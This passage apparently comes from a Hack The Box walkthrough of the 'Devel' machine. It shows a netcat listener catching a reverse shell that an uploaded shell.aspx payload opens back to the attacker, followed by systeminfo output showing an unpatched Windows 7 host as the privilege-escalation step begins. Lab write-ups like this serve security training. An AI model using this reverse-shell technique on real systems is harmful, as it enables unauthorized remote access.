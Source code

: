 We set up a listener on port `4321` on our machine and after visiting the page at `10.10.10.5/shell.aspx` we can see the connection coming back:

```
nc -nlvp 4321
listening on [any] 4321 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.5] 49177
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

We are now connected as the **iis appool\web** user!

&nbsp;

# Privilege Escalation

Running `systeminfo` on the machine, we can see that the OS is **Windows 7 Enterprise Build 7600** and that no patches are applied as the hotfix section is empty.

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 733 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.481 MB
Virtual Memory: In Use:    566 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```